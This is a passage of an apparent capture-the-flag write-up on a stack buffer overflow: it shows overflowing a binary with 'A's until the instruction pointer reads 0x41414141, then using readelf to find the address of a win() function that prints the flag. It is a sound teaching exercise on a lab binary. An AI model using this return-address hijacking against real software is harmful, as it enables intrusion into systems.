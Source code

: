 
sending some more As we can see that the address is jumping to is changing until is filled up with 0x41414141 Address, but 0x41414141 represents AAAA in hex, so we find the way to control the stack and the address to jump to
```python
>>> ord("A")
65   <- Decimal
>>> hex(65)
'0x41' <- hexadecimal
>>> 
```

```
with dmesg we get 
 segfault at 41414141 ip 0000000041414141 sp 00000000ffa36570 error 14 in libc.so.6[f7c00000+1e000]
```

**IP instructor pointer**
ip basically means that we can now jump wherever we want to, but where to jump?\
We want to jump to the funtion "win" but we need to locate this in the binary so we can use
a toold readelf **READELF install pacman -S binutils

This is where do we want to go in the source file

```
void win() {
  12   │   char buf[FLAGSIZE];
  13   │   FILE *f = fopen("flag.txt","r");
  14   │   if (f == NULL) {
  15   │     printf("%s %s", "Please create 'flag.txt' in this director
       │ y with your",
  16   │                     "own debugging flag.\n");
  17   │     exit(0);
  18   │   }
```

Since we want to find information of this function in the binary, we use readelf interesting tag which is -s or --syms \
Display the symbol table _this case work because when we run :file vuln there's the info telling is 'not stripped'_
So\
```
readelf -s vuln
```

Bum, address of the win function

```python

    62: 08049350   101 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
    63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win
    64: 00000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@@GLIBC_2.0
    65: 00000000     0 FUNC    GLOBAL DEFAULT  UND fopen@@GLIBC_2.1
    66: 0804c040     0 NOTYPE  GLOBAL DEFAULT   24 _end
    67: 08049120     5 FUNC    GLOBAL HIDDEN    13 _dl_relocate_sta[...]


 080491f6   139 FUNC    GLOBAL DEFAULT   13 win

 ```
